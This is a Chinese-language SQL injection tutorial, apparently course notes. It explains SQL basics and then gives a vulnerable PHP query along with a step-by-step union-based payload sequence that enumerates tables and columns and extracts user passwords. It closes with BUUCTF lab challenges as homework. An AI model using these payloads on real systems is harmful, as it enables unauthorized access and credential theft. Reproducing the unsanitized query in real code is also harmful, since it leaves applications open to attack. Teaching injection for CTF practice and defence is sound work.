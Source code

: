# 数据库
数据库（database）是用来组织、存储和管理数据的仓库。<br />当今世界是一个充满着数据的互联网世界，为了方便管理互联网世界中的数据，就有了数据库管理系统的概念。用户可以对数据库中的数据进行新增、查询、更新、删除等操作。
# SQL
 SQL（Structured Query Language，结构化查询语言）是一种用于管理和操作关系型数据库的标准化编程语言。 <br />基于SQL语言的数据库：MySQL、SQL Server、Access、Oracle、Sybase、DB2等
# MySQL
 MySQL 是最流行的数据库管理系统，在 WEB 应用方面最好的数据库管理应用软件之一
# SQL注入原理
![](https://cdn.nlark.com/yuque/0/2024/jpeg/34908308/1723633959509-226680b9-3059-4f45-896e-ce5648e3aeb8.jpeg)<br /> 当web应用向后台数据库传递SQL语句进行数据库操作时，如果对用户输入的参数没有经过严格的过滤处理，那么攻击者就可以构造特殊的SQL语句，直接输入数据库引擎执行，获取或修改数据库中的数据。  
# 前置语法知识
## 注释符
```
#注释
-- 注释

/*
注释
*/
```
## SELECT
SELECT 语句用于从数据库中选取数据。<br />结果被存储在一个结果表中，称为结果集。
```
-- 选择所有列的所有行
SELECT * FROM users;

-- 选择特定列的所有行
SELECT username, email FROM users;

-- 添加 WHERE 子句，选择满足条件的行
SELECT * FROM users WHERE is_active = TRUE;

SELECT 1,2,3;

-- 显示当前所在数据库
SELECT DATABASE();
```
## ORDER BY
 用于对结果集按照一个列或者多个列进行排序  
```
-- 添加 ORDER BY 子句，按照某列的升序排序
SELECT * FROM users ORDER BY birthdate;

-- 添加 ORDER BY 子句，按照某列的降序排序
SELECT * FROM users ORDER BY birthdate DESC;

SELECT * FROM users ORDER BY 1;
```
## UNION
 UNION 操作符用于连接两个以上的 SELECT 语句的结果组合到一个结果集合
```
SELECT city FROM customers UNION SELECT city FROM suppliers ORDER BY city;
```
## GROUP_CONCAT()
一种聚合函数，可以将满足条件的所有数据聚合到一列显示出来
## information_schema
mysql中自带的数据库，其中统计了这个所有数据库的表名、字段名
# 联合注入
## 数字型注入
注入时输入参数为纯数字
## 字符型注入
注入时输入参数要带引号等

源码：
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

4' LIMIT 0,1
```
payload：
```
# 找列数
id=1' order by 3-- s
id=1' order by 4-- s
# 确定哪个字段有回显
id=-1' union select 1,2,3-- s
# 确定当前数据库
id=-1' union select 1,2,database()-- s
# 爆出当前数据库内的所有表名
id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()-- s
# 爆出当前数据库user表的所有列名
id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()-- s

id=-1' union select 1,2,group_concat(password) from users-- s
```
# 作业
BUUCTF：

1. [极客大挑战 2019]EasySQL
2. BUU SQL COURSE 1
3. [极客大挑战 2019]LoveSQL

